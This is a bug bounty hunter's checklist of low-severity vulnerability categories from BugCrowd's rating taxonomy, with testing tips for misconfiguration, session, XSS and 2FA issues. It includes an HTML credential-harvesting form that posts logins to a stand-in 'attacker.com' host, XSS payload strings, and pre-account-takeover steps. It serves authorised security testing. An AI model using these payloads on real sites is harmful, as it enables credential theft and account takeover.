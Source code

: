 ```yaml
---
title: BugCrowd VRT P4 Checklist
author: h0tak88r
date: 2023-10-22
categories: [vulnerability-rating-taxonomy]
tags: [BugCrowd,VRT,P4,Low]
pin: false
---
```


>**In the name of Allah, the Most Beneficent, the Most Merciful**

***Server Security Misconfiguration  Misconfigured DNS  Zone Transfer***
- [ ] [DNS-ZONE-TRANSFER-CHECKER](https://pentest-tools.com/network-vulnerability-scanning/dns-zone-transfer-check)

***Server Security Misconfiguration  Mail Server Misconfiguration  Email Spoofing to Inbox due to Missing or Misconfigured DMARC on Email Domain***
- [ ] [DMARC-Inspector](https://dmarcian.com/dmarc-inspector/)
- [ ] [POC](https://emkei.cz/)

 **Server Security Misconfiguration  Database Management System (DBMS) Misconfiguration  Excessively Privileged User / DBA**
- [ ] [[API5 Broken Function Level Authorization (BFLA)]]

**Server Security Misconfiguration  Lack of Password Confirmation  Delete Account**

- [ ] Check for any confirmations when deleting password

**Server Security Misconfiguration  No Rate Limiting on Form**
- [ ] Registration
- [ ] login
- [ ] Email Triggering
- [ ] SMS-Triggering
1. bugcrowd alias h0tak88r+1@bugcrowdninja.com - Intruder - [[No-Rate-Limit]] 

***Server Security Misconfiguration  Missing Secure or HTTPOnly Cookie Flag  Session Token***
- [ ] Check for HTTPOnly Cookie Flag for thr session token and be sure it Really session token

***Server Security Misconfiguration  Lack of Security Headers  Cache-Control for a Sensitive Page***
- [ ] Open Sensitive-Response  Page - No Cache Control or No Expire - Close Browser - Send request in burp - Observe that You can see the same/cached response 

***Server Security Misconfiguration  Clickjacking  Sensitive Click-Based Action***
- [ ] Click Based Actions

****Server Security Misconfiguration  OAuth Misconfiguration  Account Squatting | Pre-ATO***
1. Register an account via victim email or Change your account to unsigned-victim email if there is no confirmation from victim side 
2. Don't Confirm the email
3. Victim register with OAUTH and login his account 
4. Attacker use Credentials in Step(1) to login to the account 

***Server Security Misconfiguration  CAPTCHA  Implementation Vulnerability***
- [ ] [[CAPTCHA Feature]]

***Server Security Misconfiguration  Web Application Firewall (WAF) Bypass  Direct Server Access***
- [ ] Check for original IP in shodan.io or other Alternatives (ipcriminal,....) and make sure it doesn't implement WAF

***Server-Side Injection  Content Spoofing***
- [ ] Check  For Impersonation via <span style="color:#06ea6c"Broken Link Hijacking</span via this [Extension](https://addons.mozilla.org/en-US/firefox/addon/find-broken-links/)
- [ ] Check for <span style="color:#06ea6c"Email HTML Injection</span - by Injecting in all Fields - `<a href="https://evil.com"Click me to Win 100$</a` - Email Triggering Action - Input Field Rendered as HTML content in email

****Server-Side Injection  Server-Side Template Injection (SSTI)  Basic***
- [ ] Basic SSTI That u couldn't exploit Further [[SSTI]] -  [[Parameters Analysis]]

***Server-Side Injection  Content Spoofing  External Authentication Injection***
- [ ] Try Using HTML Injection to Inject a External Authentication Form to Still Credentials from the user
```html
<form action="https://attacker.com/steal.php" method="POST"
	<label for="username"Username:</label
	<input type="text" id="username" name="username" required

	<label for="password"Password:</label
	<input type="password" id="password" name="password" required

	<button type="submit"Log In</button
</form
```

***Broken Authentication and Session Management***

- [ ] Failure to Invalidate Session - On Password Reset and/or Change 
- [ ] Failure to Invalidate Session  On Logout (Client and Server-Side)
	-  In order for this to qualify for the client and server-side variant, you'd need to demonstrate that the session identifiers are not removed from the browser at the time of log out 
- [ ] Clear-text Transmission of Session Token
	- there is no `secure` flag for the session token 
	- `curl http://example.com/path/to/resource`
- [ ] Registration over HTTP
- [ ] Login over HTTP/Or any 

***Sensitive Data Exposure***

- [ ] Pay-Per-Use-Abuse ( API_Keys, Paid Services Tokens,....)
- [ ] EXIF Geo-location Data Not Stripped From Uploaded Images  Manual User Enumeration
- [ ] Token Leakage via Referer  Untrusted 3rd Party
- [ ] Weak Password Reset Implementation  Password Reset Token Sent Over HTTP
- [ ] Sensitive Token in URL  User Facing
- [ ] Via localStorage/sessionStorage  Sensitive Token

  **XSS**
- [ ] Stored  Privileged User to No Privilege Elevation
- [ ] Universal (UXSS) - Data URI - `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`
- [ ] Referer XSS - `Referer: http://www.google.com/search?hl=en&q=c5obc'+alert(1)+'p7yd5`

  ***Broken Access Control (BAC)  Server-Side Request Forgery (SSRF)  External***
- [ ] Low Impact of SSRF Vuln, the impact of "external SSRF" is believed to be DoS, information disclosure (in the request), and origin IP disclosure

 ***Broken Access Control (BAC)  Username/Email Enumeration  Non-Brute Force***
- [ ] Found [[IDOR]] or [[Authorization-BAC-API Bugs]] that Leaks Usernames/Emails

 ***Unvalidated Redirects and Forwards  Open Redirect  GET-Based***
- [ ] [[Open Redirect]]

 ***Insufficient Security Configurability*** 
- [ ] No Password Policy - Password:`123`
- [ ] Weak Password Reset Implementation  Token is Not Invalidated After Use
- [ ] Weak 2FA Implementation  2FA Secret Cannot be Rotated
	Rotating the secret means changing this key periodically to enhance security. If the 2FA secret cannot be rotated, it means that once the secret is compromised, an attacker could potentially gain ongoing access to the account without the user’s knowledge, as there is no way for the user to change the secret.
- [ ] Weak 2FA Implementation  2FA Secret Remains Obtainable After 2FA is Enabled
	Look for Leaked 2FA Secret after acticvating 2FA
